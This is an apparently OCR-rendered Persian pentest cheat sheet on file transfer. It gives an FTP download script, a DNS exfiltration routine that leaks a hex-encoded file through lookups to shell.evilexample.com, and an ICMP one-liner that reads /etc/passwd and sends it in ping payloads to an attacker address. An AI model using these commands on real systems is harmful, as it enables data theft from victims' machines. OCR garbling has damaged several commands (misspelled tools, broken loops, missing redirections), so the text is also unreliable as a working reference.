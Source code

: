 ```yaml
---
layout: default
published: true
---
```


# نکات و ترفند ها

## انتقال فایل

### انتقال توسط ftp بدون دسترسی مستقیم به شل

```text
echo open ip 21 ftp.txt
echo user ftp.txt
echo pass ftp.txt
echo bin ftp.txt
echo GET file  tp.txt
echo bye ftp.txt
ftp -s:ftp.txt
```

### انتقال Dns در لینوکس

```text
On victim:
1. Hex encode the file to be transferred
   xxd -p secret file.hex
2. Read in each line and do a DNS lookup
   forb in 'cat fole.hex '; do dig $b.shell.evilexample.com; done

On attacker:
1. Capture DNS exfil packets
   tcdpump -w /tmp/dns -s0 port 53 and host system.example.com
2. Cut the exfilled hex from the DNS packet
   tcpdump -r dnsdemo -n | grep shell.evilexample.com | cut -f9 -d'
   cut -f1 -d'.' | uniq received. txt
3. Reverse the hex encoding
   xxd -r -p received~.txt kefS.pgp
```

### اجرای دستور exfil و انتقال اطلاعات آن با icmp

```text
On victim (never ending 1 liner) :
    stringz=cat /etc/passwd | od -tx1 | cut -c8- | tr -d " " | tr -d "\n";
counter=0; while (($counter = ${#stringZ})) ;do ping -s 16 -c l -p
${stringZ:$counter:16} 192.168.10.10 &&
counter=$( (counter+~6)) ;done

On attacker (capture pac~ets to data.dmp and parse):
tcpdump -ntvvSxs 0 'icmp[0]=8' data.dmp
grep Ox0020 data.dmp | cut -c21- | tr -d " " | tr -d "\n" | xxd -r -p
```
